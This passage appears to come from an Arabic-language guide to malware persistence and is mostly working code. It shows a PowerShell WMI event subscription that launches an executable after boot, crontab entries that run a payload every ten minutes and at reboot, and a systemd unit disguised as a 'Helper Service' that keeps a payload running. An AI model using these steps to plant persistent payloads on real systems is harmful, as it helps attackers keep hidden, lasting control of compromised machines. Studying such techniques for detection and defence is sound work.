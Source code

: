 # إنشاء المرشح
$wmiParams = @{
    Name = $filterName
    EventNameSpace = 'root\cimv2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 120 AND TargetInstance.SystemUpTime < 325"
}
$filter = Set-WmiInstance -Class '__EventFilter' -Namespace "root\subscription" -Arguments $wmiParams

# إنشاء المستهلك
$wmiParams = @{
    Name = $consumerName
    CommandLineTemplate = $exePath
}
$consumer = Set-WmiInstance -Class 'CommandLineEventConsumer' -Namespace "root\subscription" -Arguments $wmiParams

# ربط المرشح بالمستهلك
$wmiParams = @{
    Filter = $filter
    Consumer = $consumer
}
Set-WmiInstance -Class '__FilterToConsumerBinding' -Namespace "root\subscription" -Arguments $wmiParams
طرق الاستمرارية على أنظمة Linux
1. Cron Jobs
bash# إضافة مهمة cron تعمل كل 10 دقائق
(crontab -l 2>/dev/null; echo "*/10 * * * * /path/to/payload") | crontab -

# إضافة مهمة للتشغيل عند إعادة تشغيل النظام
echo "@reboot /path/to/payload" | crontab -
2. ملفات Systemd
bash# إنشاء وحدة systemd
cat > /etc/systemd/system/helper.service << EOF
[Unit]
Description=Helper Service
After=network.target

[Service]
Type=simple
ExecStart=/path/to/payload
Restart=always

[Install]
WantedBy=multi-user.target
EOF
